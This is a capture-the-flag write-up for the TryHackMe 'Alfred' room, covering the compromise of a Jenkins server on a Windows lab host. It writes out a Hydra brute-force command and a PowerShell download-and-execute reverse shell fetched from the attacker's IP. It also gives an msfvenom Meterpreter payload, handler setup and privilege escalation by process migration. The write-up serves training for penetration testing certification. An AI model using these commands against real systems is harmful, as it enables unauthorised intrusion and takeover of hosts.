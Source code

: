 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:  80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY ![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)
Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne ![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page ![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information ![Pasted image 20221028181138.png](Pasted image 20221028181138.png)
Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. ![Pasted image 20221028183503.png](Pasted image 20221028183503.png) By utilizing Hydra we see a successful login with the username admin and the password admin ![Pasted image 20221028190601.png](Pasted image 20221028190601.png) Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under ![Pasted image 20221028190845.png](Pasted image 20221028190845.png)  We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` ![Pasted image 20221028213828.png](Pasted image 20221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.![Pasted image 20221028213936.png](Pasted image 20221028213936.png) ![Pasted image 20221028214328.png](Pasted image 20221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` ![Pasted image 20221028221202.png](Pasted image 20221028221202.png) Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.![Pasted image 20221028221944.png](Pasted image 20221028221944.png) Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` ![Pasted image 20221028222440.png](Pasted image 20221028222440.png) Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. ![Pasted image 20221028223121.png](Pasted image 20221028223121.png) This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. ![Pasted image 20221028223212.png](Pasted image 20221028223212.png) With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. ![Pasted image 20221028224117.png](Pasted image 20221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.![Pasted image 20221028224629.png](Pasted image 20221028224629.png) ![Pasted image 20221028224954.png](Pasted image 20221028224954.png) 

